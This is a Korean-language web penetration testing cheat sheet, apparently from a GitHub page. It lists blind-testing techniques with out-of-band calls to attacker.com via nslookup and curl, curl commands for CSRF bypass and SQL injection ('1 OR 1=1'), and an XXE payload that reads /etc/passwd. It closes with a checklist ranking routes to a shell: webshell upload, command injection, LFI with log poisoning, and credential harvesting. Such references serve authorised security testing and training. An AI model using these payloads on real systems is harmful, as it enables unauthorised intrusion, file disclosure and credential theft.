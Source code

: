 ### 🔍 페이로드 응답이 없을 때

```bash
# 시간 기반 테스트
# SQL: SLEEP(), WAITFOR DELAY
# Command: sleep, ping
# 응답 시간 차이로 취약점 확인

# 에러 기반 테스트
# SQL: 의도적으로 에러 발생시켜 정보 수집
# XSS: console.log() 사용으로 브라우저 콘솔 확인

# Out-of-band 테스트
# DNS 요청: nslookup attacker.com
# HTTP 요청: curl http://attacker.com/
```

### 📱 모바일/AJAX 애플리케이션

```bash
# API 엔드포인트 테스트
curl -X POST -H "Content-Type: application/json" -d '{"param":"value"}' http://{IP}/api/endpoint

# CSRF 토큰 무시
curl -X POST --data "csrf_token=invalid&param=value" http://{IP}/action

# JSON 페이로드
curl -X POST -H "Content-Type: application/json" -d '{"id":"1 OR 1=1"}' http://{IP}/api/user

# XML 페이로드 (XXE)
curl -X POST -H "Content-Type: application/xml" -d '<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM "file:///etc/passwd">]><root>&test;</root>' http://{IP}/api/xml
```

---

## 📋 웹 공격 우선순위 체크리스트

### 🔥 High Priority (즉시 쉘 획득 가능)

- [ ] **File Upload** → 웹쉘 업로드 → 즉시 RCE
- [ ] **Command Injection** → 직접 시스템 명령 실행
- [ ] **SQL Injection (FILE 권한)** → 웹쉘 파일 쓰기
- [ ] **LFI + Log Poisoning** → 로그 파일을 통한 코드 실행

### 🟡 Medium Priority (정보 수집 → 쉘 획득)

- [ ] **SQL Injection** → 데이터베이스 정보 → 크레덴셜 수집
- [ ] **LFI** → 시스템 파일 읽기 → SSH 키, 설정 파일
- [ ] **Directory Traversal** → 중요 파일 접근
- [ ] **Authentication Bypass** → 관리자 기능 접근
